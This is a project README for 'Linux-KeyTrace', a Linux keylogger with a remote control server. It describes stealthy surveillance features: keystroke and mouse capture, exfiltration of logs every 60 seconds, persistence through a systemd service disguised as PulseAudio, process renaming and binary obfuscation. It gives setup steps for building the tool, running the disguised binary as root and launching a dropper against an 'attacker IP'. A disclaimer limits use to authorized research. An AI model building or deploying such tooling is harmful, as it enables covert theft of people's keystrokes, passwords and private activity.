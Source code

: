 
#  🔐 Linux-KeyTrace <sup><sub>v1.0</sub></sup>

![Linux-KeyTrace Banner](Banner.png)

**Linux-KeyTrace** is a Linux-based advanced keylogger built for cybersecurity research and awareness purposes. It captures keystrokes and mouse activity, logs them locally with timestamps, and periodically exfiltrates logs to a remote control server. It includes stealth features such as process renaming and service masquerading.

---

## ⚠️ Disclaimer

> This project is intended **strictly for educational and ethical security research purposes only**.  
> Do **not** use it on systems without **explicit authorization**.  
> The developer assumes **no responsibility** for misuse.

---

## 🔧 Features

- ✅ **Keyboard and Mouse logging** via `/dev/input` event interfaces    
- ✅ **Dynamic device discovery** (`/proc/bus/input/devices`)  
- ✅ **Remote control server** (Flask-based):  
  - Start, stop, cleanup commands  
  - Upload and download logs  
  - Serve payload binary  
- ✅ **Dropper script** to simulate infection  
- ✅ **Persistence** via systemd service (masqueraded as PulseAudio)  
- ✅ **Log exfiltration** every 60 seconds using `libcurl`  
- ✅ **Process disguise** (`pulseaudio`) and binary obfuscation  

---

## 📁 Project Structure

```
Linux-KeyTrace/
├── include/                # Header files
├── src/                    # Keylogger core logic
│   ├── device_finder.c     # Finds keyboard and mouse devices
│   ├── exfiltrator.c       # Sends logs to remote server, fetches commands
│   ├── keymap.c            # Maps keycodes to readable characters
│   ├── logger.c            # Captures and logs keystrokes/mouse events
│   └── main.c              # Main program: init, loop, cleanup
├── server/                 # Flask-based control server
│   ├── listener.py         # Control server backend
│   ├── control.txt         # Remote command file (run, stop, cleanup)
│   ├── ip.txt              # Stores IP used by client
│   └── received_logs/      # Incoming logs from clients
├── misc/                   # systemd service file
├── dropper.sh              # Simulates payload delivery
├── Makefile                # Build instructions
└── README.md               # Project info
```

---

## 🚀 Quick Setup

### 1. Build the Keylogger

```bash
make clean && make
```

---

### 2. Start the Control Server

```bash
cd server
source venv/bin/activate   # If using virtualenv
python3 listener.py
```

The server will start on `http://<your-ip>:8080`

---

### 3. Run the Keylogger (simulate infection)

**Terminal 1** (compile and run):

```bash
ps aux | grep pulseaudio
sudo kill <PID>            # Optional if testing
sudo ./pulseaudio          # Starts the keylogger
```

**Terminal 2** (server already running)

**Terminal 3** (simulate dropper execution):

```bash
./dropper.sh 127.0.0.1     # Replace with attacker IP
```

**Terminal 4** (view logs):

```bash
cd server/received_logs
tail -f keylog.txt
```

---

## 📌 Notes
 
- The keylogger requires **root permissions** to access `/dev/input/event*` devices.  
- Tested on modern Linux distributions with X11.  

---

## 🛡️ Legal Notice

This tool is designed for **red team training**, **ethical hacking labs**, or **controlled environments**.  
Unauthorized use **may violate privacy laws and computer misuse legislation** in your jurisdiction.

---

## 📫 Contact

For inquiries related to responsible usage, security research, or contributing to the project, please reach out via GitHub or your institutional contact channels.

## Author
Developed by Kunal Dharme.